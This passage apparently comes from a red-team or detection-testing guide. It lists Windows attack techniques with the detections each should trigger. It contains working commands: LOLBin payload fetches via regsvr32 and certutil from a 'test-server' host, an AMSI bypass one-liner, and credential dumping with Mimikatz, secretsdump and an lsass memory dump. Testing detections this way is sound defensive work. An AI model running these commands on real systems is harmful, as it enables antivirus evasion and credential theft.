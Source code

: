 **2. LOLBins (Living Off the Land Binaries):**
```bash
# MSBuild.exe (code execution)
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe malicious.csproj

# Regsvr32.exe (COM scriptlet execution)
regsvr32 /s /n /u /i:http://test-server/test.sct scrobj.dll

# CertUtil (file download)
certutil -urlcache -split -f http://test-server/payload.exe payload.exe

# Expected Detections:
# - Process creation from unusual parent (Sysmon Event ID 1)
# - Network connection from unexpected binary (Sysmon Event ID 3)
# - Command-line logging showing suspicious parameters
```

**3. Process Injection:**
```bash
# DLL Injection
# CreateRemoteThread API → inject DLL into target process

# Process Hollowing
# Create suspended process → replace memory → resume

# Reflective DLL Injection
# Load DLL directly into memory (no disk artifacts)

# Expected Detections:
# - Sysmon Event ID 8 (CreateRemoteThread)
# - Sysmon Event ID 10 (ProcessAccess with suspicious rights)
# - EDR behavioral detection (memory allocation patterns)
```

**4. AMSI Bypass:**
```powershell
# AMSI (Anti-Malware Scan Interface) bypass techniques

# Reflection-based bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Expected Detections:
# - Script Block Logging (full script content)
# - EDR monitoring of AMSI tampering
# - Memory scanning for known bypass patterns
```

**5. Credential Dumping:**
```bash
# Mimikatz
mimikatz.exe "sekurlsa::logonpasswords" "exit"

# Impacket secretsdump
secretsdump.py -sam sam.save -system system.save LOCAL

# ProcDump + Mimikatz (two-stage)
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# Transfer lsass.dmp offline, analyze with Mimikatz

# Expected Detections:
# - Sysmon Event ID 10 (ProcessAccess to lsass.exe)
# - EDR behavioral (credential access pattern)
# - Security Event 4656 (handle to LSASS)
```

---